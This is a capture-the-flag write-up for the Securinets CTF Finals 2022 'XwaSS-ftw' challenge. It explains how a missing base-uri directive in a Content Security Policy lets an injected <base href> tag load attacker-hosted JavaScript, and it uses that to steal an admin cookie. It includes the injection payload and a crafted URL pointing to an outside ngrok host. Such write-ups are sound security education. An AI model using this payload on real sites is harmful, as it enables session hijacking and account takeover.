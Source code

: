 # Securinets-CTF-Finals-2022  
## XwaSS-ftw Writeup


This challenge was about achieving an XSS by bypassing the CSP

Challenge :

![image](https://user-images.githubusercontent.com/58823465/167916910-78285058-5944-4b8d-8de8-55650fc0cca5.png)


We can find the CSP in the source code 

``` 
<meta http-equiv="Content-Security-Policy" content="script-src 'nonce-uupQ2er9ZEFzu3';connect-src 'self';style-src 'self';font-src 'self';object-src 'none'">
```
First i checked if the "nonce" is a fixed string so we can abuse it but it seems to be dynamic so i ditched that idea quickly and used the CSP validator to get more of an idea about this CSP

![image](https://user-images.githubusercontent.com/58823465/167917258-82fea6ed-7a13-4b8c-838d-e240c89e3966.png)

We can see the the "base-uri missing" meaning we can use `` <base> `` tags and use a technique called Dangling Markup injection.

The base tag is used to specify a base URL for relative links. This URL will be the base URL for every link on the page

So in layman terms if there's <base href="https/../"> in the source code it will try to fetch the needed assets or tools throught that URL

For example if they're using bootstrap its possible that they added a base tag to get the bootstrap.css or bootstrap.js asset from another url mentionned in the base tag

So to abuse this we can try test it with a random url to see if the base tags are working

We can use this payload

```
'><base href="https://example.com">
``` 

![image](https://user-images.githubusercontent.com/58823465/167918956-ef963dd8-37d1-4fcd-87af-441eee9ce375.png)

and we can notice in the console this particular error 

![image](https://user-images.githubusercontent.com/58823465/167918067-d5b8dc28-87d5-4709-90e0-dd8c7af14469.png)

This means it's trying to fetch the relative path `` /assets/js/bootstrap.js ``, so all we need to do is spin up our own server and add the same relative path and inject some xss in the file "bootstrap.js"

So this is the setup for the server 

![image](https://user-images.githubusercontent.com/58823465/167920326-329be168-ac77-4f9f-aca2-84f29e83bb7a.png)

**note: Make sure to start your ngrok server in the same directory for the /assets/js/bootstrap.js**

so using the payload :

``` '><base href="http://7923-41-225-41-253.ngrok.io"> ```


![image](https://user-images.githubusercontent.com/58823465/167920555-2f43deff-dbb3-4247-a1ba-d16c38d5f14d.png)


And yes !! we get an XSS !!

Now all we have to do is to steal the admin cookie through the report endpoint with our custom ngrok server

![image](https://user-images.githubusercontent.com/58823465/167920820-9cd44941-e9f6-4c1d-b9e9-ee23bd8cd03b.png)


and then we send this url to the admin to steal his cookie !

```http://challenge_link/index.php?src='><base href="http://7923-41-225-41-253.ngrok.io">```

![image](https://user-images.githubusercontent.com/58823465/167921246-78c3a39f-7b38-456c-9890-a611819ca7de.png)



And there you go !! we found our flag :D


``` Flag : Securinets{CSP_W1Th_BaSE_Is_GooD_Nah?} ```


Resources : 

https://klefz.se/2020/11/10/bugpoc-xss-ctf-november-2020-write-up/

https://book.hacktricks.xyz/pentesting-web/content-security-policy-csp-bypass


